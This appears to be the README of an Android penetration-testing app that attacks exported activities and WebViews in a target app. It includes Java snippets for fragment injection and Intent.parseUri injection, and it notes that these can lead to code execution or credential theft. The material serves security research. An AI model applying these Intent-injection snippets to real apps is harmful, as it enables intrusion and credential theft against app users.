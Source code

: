 # Target Exploit Tool

An Android penetration testing application designed to exploit vulnerabilities in exported functions.

## Overview

This tool provides a simple interface to test multiple security vulnerabilities when discovering exported functions in an app. It includes buttons to launch different exploit vectors and displays results in a real-time log.

## Features

### Example Exploit Methods

1. **BlankActivity Exploitation**
   - Targets: `BlankActivity` with `CustomPageFragment`
   - Vulnerability: Fragment injection via Intent extras
   - Method: Launches CustomPageFragment with malicious URL

2. **ForgotPassword Targeting**
   - Targets: Forgot Password WebView
   - Vulnerability: WebView with exposed JavaScript interface
   - Method: Injects custom URL into forgot password WebView

3. **RedirectFragment Direct Launch**
   - Targets: RedirectFragment directly
   - Vulnerability: Redirect page URL injection
   - Method: Direct fragment launch with malicious URL

4. **DeepActivity Intent Injection**
   - Targets: `DeepActivity.navToActivity()` method
   - Vulnerability: `Intent.parseUri()` processing
   - Method: Intent injection with custom URI schemes

## Prerequisites

- Android Studio or compatible IDE
- Android SDK (API 24+)
- Target device with target app installed
- USB Debugging enabled on target device
- Java 25

## Installation

1. **Clone/Download** this project
2. **Open** in Android Studio
3. **Build** the project in Android Studio
4. **Install** on device:
   `adb install C:\<Path-To-App>\app-debug.apk`

## Usage

1. **Launch** the target Exploit Tool app
2. **Enter** your target URL (default: `https://counterhack.com`)
3. **Select** an exploit method by tapping the corresponding button
4. **Monitor** the log output for results

### Exploit Buttons

- **Test BlankActivity**: Launches BlankActivity with CustomPageFragment
- **Test ForgotPassword**: Targets payment processing WebView
- **Test RedirectFragment**: Direct CustomPageFragment exploitation
- **Test DeepActivity Intent**: Intent injection via HomeActivity

## Technical Details

### Exploit Mechanisms

These exploits target mainly webView but do illustrate how to craft exploits. In example, if there is an exported vulnerable webView function, we can target them and redirect the app to a site we controll and execute JavaScript code there. Then we can achive RCE or steal credentials and so on.

#### 1. BlankActivity Vector
```java
Intent intent = new Intent();
intent.setClassName(TARGET_PACKAGE, TARGET_PACKAGE + ".views.BlankActivity");
intent.putExtra("bundle_key_start_with_fragment_name", "CustomPageFragment");
intent.putExtra("bundle_key_start_fragment_with_args", createCustomPageBundle(url));
```

#### 2. Intent Injection Vector
```java
String intentUri = "intent://" + url + "#Intent;scheme=https;end";
Intent intent = new Intent();
intent.setAction(Intent.ACTION_VIEW);
intent.setData(Uri.parse(intentUri));
intent.setClassName(TARGET_PACKAGE, TARGET_PACKAGE + ".activities.HomeActivity");
```

#### 3. CustomPage Serialization
```java
private static class CustomPageData implements java.io.Serializable {
    private String mUrl;
    private String mData;
    
    public CustomPageData(String url) {
        this.mUrl = url;
        this.mData = url;
    }
}
```

## Security Research Context

This tool was developed to demonstrate the following vulnerability classes:

1. **Exported Activity Exploitation**
   - Improper Intent validation
   - Fragment injection attacks

2. **WebView Security Issues**
   - JavaScript interface exposure
   - URL validation bypass

3. **Intent Injection Attacks**
   - `Intent.parseUri()` vulnerabilities
   - Deep link processing flaws


## Building from Source

### Requirements
- Java 25+
- Android SDK 34
- Gradle 8.0+



### Project Structure
```
app/
├── src/main/
│   ├── java/com/pentest/chi/
│   │   └── MainActivity.java
│   ├── res/
│   │   ├── layout/activity_main.xml
│   │   ├── values/strings.xml
│   │   └── values/themes.xml
│   └── AndroidManifest.xml
├── build.gradle
└── proguard-rules.pro
```

## Log Output

The app provides real-time logging of exploit attempts:

```
[10:30:15] target Exploit Tool initialized
[10:30:15] ✓ Target app found: com.target.exported.function
[10:30:20] === EXPLOIT 1: BlankActivity ===
[10:30:20] Target: BlankActivity with CustomPageFragment
[10:30:20] URL: https://counterhack.com
[10:30:21] ✓ BlankActivity exploit launched
```

## Troubleshooting

### Common Issues

1. **Target app not found**
   - Ensure target app is installed, sometimes it's a false positive

2. **Permission denied**
   - Enable USB debugging
   - Grant "Install unknown apps" permission

3. **Build failures**
   - Check Java/Android SDK versions
   - Sync project with Gradle files

4. **Exploit failed, permission denied**
   -  Check that the function you are targeting is exported
   -  Check the logs by running `adb logcat > C:\Users\TGC\Desktop\debugginglogs.logs`, pass it to an LLM and pray

## Contributing

Talk to TGC